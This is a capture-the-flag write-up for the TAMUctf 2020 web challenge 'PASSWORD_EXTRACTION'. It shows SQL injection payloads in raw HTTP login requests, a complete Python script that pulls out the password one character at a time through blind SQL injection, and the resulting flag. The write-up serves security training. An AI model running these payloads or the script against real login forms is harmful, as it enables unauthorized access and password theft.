 # TAMUctf 2020 – PASSWORD_EXTRACTION

* **Category:** web
* **Points:** 262

## Challenge

> The owner of this website often reuses passwords. Can you find out the password they are using on this test server?
> 
> http://passwordextraction.tamuctf.com
> 
> You do not need to use brute force for this challenge.

## Solution

The website contains only a login form that is vulnerable to SQL injection.

```
POST /login.php HTTP/1.1
Host: passwordextraction.tamuctf.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 75
Origin: http://passwordextraction.tamuctf.com
Connection: close
Referer: http://passwordextraction.tamuctf.com/
Upgrade-Insecure-Requests: 1

username=foo&password=foo%27%20OR%201%3D1%20AND%20username%20LIKE%20%27a%25

HTTP/1.1 200 OK
Server: nginx/1.16.1
Date: Sat, 21 Mar 2020 18:00:47 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 72
Connection: close
Vary: Accept-Encoding

You've successfully authorized, but that doesn't get you the password.
```

Modifying the SQL injection query you will discover that the password is the flag.

```
POST /login.php HTTP/1.1
Host: passwordextraction.tamuctf.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 82
Origin: http://passwordextraction.tamuctf.com
Connection: close
Referer: http://passwordextraction.tamuctf.com/
Upgrade-Insecure-Requests: 1

username=foo&password=foo%27%20OR%201%3D1%20AND%20password%20LIKE%20%27gigem%7B%25

HTTP/1.1 200 OK
Server: nginx/1.16.1
Date: Sat, 21 Mar 2020 18:02:51 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 72
Connection: close
Vary: Accept-Encoding

You've successfully authorized, but that doesn't get you the password.
```

You can write a [Python script](password-extraction-solver.py) to easily exfiltrate all password chars via blind SQL injection.

```python
import requests
import string
import time

url_form = "http://passwordextraction.tamuctf.com/login.php"
payload = "username=foo&password=foo' OR 1=1 AND password LIKE '{}%"
headers = {
   "User-Agent": "Mozilla/5.0 (Windows; U; MSIE 9.0; Windows NT 9.0; en-US);", 
   "Content-Type": "application/x-www-form-urlencoded",
   "Origin": "http://passwordextraction.tamuctf.com",
   "Referer": "http://passwordextraction.tamuctf.com/"
}

found_chars = "gigem{"
while True:
    for new_char in string.printable.replace("%", "").replace("_", ""):
        attempt = found_chars + new_char
        print("[*] Attempt: '{}'.".format(attempt))
        data = payload.format(attempt)
        print("[*] Payload: {}.".format(data))
        
        page = None
        response_ok = False
        while not response_ok:
            try:
                page = requests.post(url_form, data=data, headers=headers)
                response_ok = True
            except:
                print("[!] EXCEPTION!")
                time.sleep(1 * 60)
    
        if "successfully authorized" in page.text:
            found_chars += new_char
            print("[*] Found chars: '{}'".format(found_chars))
            break
    
    if found_chars[-1] == "}":
        break
        
print("The FLAG is: {}".format(found_chars))
```

The flag is the following.

```
gigem{h0peYouScr1ptedTh1s}
```